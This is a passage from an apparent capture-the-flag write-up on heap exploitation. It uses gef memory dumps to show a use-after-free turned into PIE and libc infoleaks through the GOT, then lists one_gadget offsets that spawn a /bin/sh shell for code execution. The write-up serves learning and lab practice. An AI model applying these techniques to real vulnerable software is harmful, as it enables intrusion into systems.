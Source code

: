 After that, we can just free that chunk and we will be able reallocate previously used chunks.

### PIE and Libc Infoleaks

Now that we can allocate previously used memory and have a UAF bug, we can get an infoleak. Let's see what the heap looks like after we go the steps of the overflow section above:

```
gef➤  x/40g 0x0000602000000000
0x602000000000:	0x0200000000000000	0x5180000120000010
0x602000000010:	0x0202020262800001	0x0202020202020202
0x602000000020:	0x0200000002020200	0x5f800001ffffffff
0x602000000030:	0x000060201e000001	0x000055c158e2eab0
```

We can see here that we have two `0x10` chunks that will be allocated. Now the chunks will be allocated in the reverse order that they were allocated. So the bottom chunk will be allocated first, then the top chunk. Now when the chunks are allocated, the chunk with the contents is allocated first followed by the chunk with the pointer and libc pointer in it. So when we allocate another `0x10` byte block with the contents `0x602000000018` and size `0xdeadbeef00` (we need the null byte at the end because the size starts at `0x602000000037`) we get this:


```
gef➤  x/40g 0x0000602000000000
0x602000000000:	0x02ffffff00000002	0x5f80000120000010
0x602000000010:	0x0000602000000030	0x000055c158e2eab0
0x602000000020:	0x02ffffff00000002	0x5180000120000010
0x602000000030:	0x0000602000000018	0xbe000000deadbeef
```

When we look at the pointers stored in `notes`, we see these:
```
gef➤  x/2g 0x55c159ccacc0
0x55c159ccacc0:	0x0000602000000030	0x0000602000000010
```

So we can see that at index `0` we have the pointer `0x0000602000000030`. Now how these chunks work is the chunk that the pointer points to, doesn't actually hold the contents. It holds a pointer to it. Right now that address holds the pointer `0x0000602000000018`, which points to the PIE pointer `0x000055c158e2eab0`. If we were to show the dream at index `0`, it would give us that pointer and we would be able to break aslr for the PIE section. Now that we have the PIE infoleak, we can figure out the address of the got table and use that to get a libc infoleak.

After we use the pie base and the offsets to figure out the address of a got table entry  we can get our libc infoleak. If we try to edit the dream at index `1`, it will edit the memory at `0x0000602000000018` (since that is the pointer stored in `notes` at that index). With that we will be able to overwrite the value at `0x602000000030` with the ID we are editing with. We can write the got address of a function there, then when we got to print the dream at index `0` it will leak the got address for that function.

### One Gadget

Now for the last part, we will have to worry about getting code execution. We will be overwriting a function pointer with a oneshot gadget (oneshot can be found here https://github.com/david942j/one_gadget). To find the available one gadgets (however not all of them might work depending on the exact conditions that they are called):
```
$ one_gadget libc-2.27.so 
0x4f2c5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rcx == NULL

0x4f322 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a38c  execve("/bin/sh", rsp+0x70, environ)
```